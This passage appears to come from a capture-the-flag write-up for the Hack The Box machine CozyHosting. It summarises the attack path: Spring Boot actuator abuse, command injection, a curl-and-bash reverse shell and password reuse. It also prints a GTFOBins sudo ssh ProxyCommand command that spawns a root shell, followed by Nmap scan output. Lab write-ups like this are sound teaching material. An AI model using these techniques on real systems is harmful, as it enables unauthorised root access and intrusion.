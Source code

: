 7. **Privilege Escalation**
    - `sudo -l` shows `josh` can run `ssh` as root.
    - Used GTFOBins trick: `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
    - Escalated to root shell.

### Key Techniques:

- **Spring Boot Actuator Abuse**: Accessed internal session info.
- **Command Injection**: Abused insecure SSH form.
- **Reverse Shell**: Used `curl` and `bash` to retrieve and execute payload.
- **Password Reuse**: Reused cracked hash for lateral movement.
- **GTFOBins Sudo Bypass**: Leveraged `ssh` with `ProxyCommand` for root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/cozyhosting]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.230
Performing quick port scan on 10.10.11.230...
Found open ports: 22,80
Performing detailed scan on 10.10.11.230...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-05 16:34 MDT
Nmap scan report for 10.10.11.230
Host is up (0.29s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds
```

### http(80)
